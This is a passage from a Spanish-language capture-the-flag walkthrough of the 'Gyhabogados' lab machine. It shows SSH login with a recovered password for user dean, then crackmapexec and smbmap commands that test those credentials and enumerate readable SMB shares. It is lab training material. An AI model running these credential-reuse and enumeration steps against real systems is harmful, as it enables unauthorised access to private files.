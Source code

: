 Tenemos la contraseña del **usuario dean**.

Probémosla:
```bash
ssh dean@192.168.100.150
dean@192.168.100.150's password: 
Linux TheHackersLabs-Gyhabogados 6.1.0-28-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.119-1 (2024-11-22) x86_64
...
Last login: Sun Dec  8 19:12:27 2024
dean@TheHackersLabs-Gyhabogados:~$ whoami
dean
```

Aquí encontraremos la flag del usuario:
```bash
dean@TheHackersLabs-Gyhabogados:~$ ls
Maildir  user.txt
dean@TheHackersLabs-Gyhabogados:~$ cat user.txt
...
```

<br>

<h2 id="PPK">Enumeración de Archivos Compartidos del Usuario dean y Generando Llave Privada id_rsa con puttygen y Archivo PPK</h2>

Revisando los archivos del **usuario dean**, no encontraremos mucho.

Puede que la contraseña de este usuario nos sirva para ver más archivos compartidos:
```bash
crackmapexec smb 192.168.100.150 -u 'dean' -p '**********'
SMB         192.168.100.150 445    THEHACKERSLABS-GYHABOGADOS [*] Windows 6.1 Build 0 (name:THEHACKERSLABS-GYHABOGADOS) (domain:THEHACKERSLABS-GYHABOGADOS) (signing:False) (SMBv1:False)
SMB         192.168.100.150 445    THEHACKERSLABS-GYHABOGADOS [+] THEHACKERSLABS-GYHABOGADOS\dean:**********
```
Sí funcionan.

Veamos si podemos ver otro directorio:
```bash
smbmap -H 192.168.100.150 -u 'dean' -p '**********' --no-banner
[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 1 authenticated session(s)                                                      
                                                                                                                             
[+] IP: 192.168.100.150:445	Name: gyhabogados.thl     	Status: NULL Session
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	READ ONLY	Printer Drivers
	CONFIDENCIALES                                    	READ ONLY	Documentos Confidenciales de Clientes
	IT_TOOLS                                          	READ ONLY	IT Tools
	RESPALDOS_IT                                      	READ ONLY	Respaldos IT
	IPC$                                              	NO ACCESS	IPC Service (Samba 4.17.12-Debian)
	dean                                              	READ ONLY	Home Directories
[*] Closed 1 connections
```
Ya podemos ver el contenido del directorio **RESPALDOS_IT**.
